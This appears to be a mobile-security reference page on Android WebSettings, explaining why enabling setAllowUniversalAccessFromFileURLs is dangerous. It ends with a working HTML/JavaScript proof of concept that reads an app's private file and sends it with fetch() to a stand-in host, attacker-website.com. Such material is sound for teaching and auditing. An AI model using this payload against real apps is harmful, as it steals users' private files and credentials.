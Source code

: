 # WebSettings overview

[WebSettings](https://developer.android.com/reference/android/webkit/WebSettings) manages settings state for a WebView. When a WebView is first created, it obtains a set of default settings. A WebSettings object obtained from [WebView#getSettings()](https://developer.android.com/reference/android/webkit/WebView#getSettings%28%29) is tied to the life of the WebView. 

# Security issues

## setAllowUniversalAccessFromFileURLs

[setAllowUniversalAccessFromFileURLs](https://developer.android.com/reference/android/webkit/WebSettings#setAllowUniversalAccessFromFileURLs%28boolean%29) sets whether cross-origin requests in the context of a file scheme URL should be allowed to access content from **any origin**. This includes access to content from other file scheme URLs or web contexts. The default value is `false` since Android 4.1.

{% raw %} {% hint style="info" %} {% endraw %}
This method was deprecated in API level 30
{% raw %} {% endhint %} {% endraw %}

Enabling this setting allows malicious scripts loaded in a `file://` context to launch cross-site scripting attacks, either accessing arbitrary local files including WebView cookies, app private data or even credentials used on arbitrary web sites.

For example, if an applciation allows you to open arbitrary links in a WebView you can pass a path to shared html file with the following content to steal a private file:

```html
<!-- file:///sdcard/index.html -->
<script>
    var url = 'file:///data/data/com.victim.app/internal_folder/private_file.txt';
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (xhr.readyState === 4) {
            fetch('https://attacker-website.com/?content=' + btoa(xhr.responseText));
        }
    }
    xhr.open('GET', url, true);
    xhr.send('');
</script>
```

